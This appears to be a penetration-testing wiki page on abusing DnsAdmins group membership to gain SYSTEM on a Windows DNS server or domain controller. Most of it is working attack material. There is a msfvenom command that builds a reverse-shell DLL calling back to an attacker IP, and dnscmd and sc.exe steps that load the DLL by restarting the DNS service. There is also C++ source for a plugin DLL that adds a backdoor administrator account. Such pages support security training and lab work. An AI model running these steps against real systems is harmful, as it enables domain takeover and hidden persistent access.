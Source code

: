 # DNSadmins

## Theory

The attack relies on a DLL injection into the **dns service** running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

{% hint style="info" %}
You must be member of the DnsAdmins group to perform this attack.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Exploit - msfvenom" %}
First, generate a DLL to inject

```bash
# Generating the DLL
sudo msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.28 LPORT=5566 -f dll > privesc.dll
```

Now we can replace the service's dll

```bash
# Host the DLL on a SMB server or upload it on the target machine
$ sudo smbserver.py MYSHARE /path/to/dll -smb2support

# On the target machine, update the DNS configuration and give it the DLL
PS > dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.10.14.28\TESTLOL\privesc.dll
```

You can know trigger the exploit by restarting the dns service.

```powershell
# You can check if the DLL has been correctly loaded
PS > Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

# Then restart the DNS service (start your listener on attacking machine before)
PS > sc.exe stop dns
PS > sc.exe query dns
PS > sc.exe start dns
```
{% endtab %}

{% tab title="Custom dll" %}
Here is a template to compile your own DLL for DNS service:

{% code title="evildll.cpp" %}
```cpp
#include <windows.h>
#include <stdlib.h>


// Here so I remember how to compile it.
// x86_64-w64-mingw32-gcc -shared -o evil.dll evildll.cpp

extern "C" __declspec(dllexport) int DnsPluginInitialize(PVOID a1, PVOID a2)
{
  system("net.exe user bob Password123 /add");
  system("net.exe localgroup administrators bob /add");
  return 0;
}

extern "C" __declspec(dllexport) int DnsPluginCleanup()
{
  return 0;
}

extern "C" __declspec(dllexport) int DnsPluginQuery(PSTR a1, WORD a2, PSTR a3, PVOID a4)
{
  return 0;
}


BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        OutputDebugString("DLL_PROCESS_ATTACH");
        break;

    case DLL_THREAD_ATTACH:
        OutputDebugString("DLL_THREAD_ATTACH");
        break;

    case DLL_THREAD_DETACH:
        OutputDebugString("DLL_THREAD_DETACH");
        break;

    case DLL_PROCESS_DETACH:
        OutputDebugString("DLL_PROCESS_DETACH");
        break;
    }

    return TRUE;
}
```
{% endcode %}

Compile it on linux using mingw

```bash
$ x86_64-w64-mingw32-gcc -shared -o evil.dll evildll.cpp
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://cheatsheet.haax.fr/windows-systems/privilege-escalation/dnsadmins_group/" %}

{% embed url="https://malicious.link/post/2020/compiling-a-dll-using-mingw/" %}
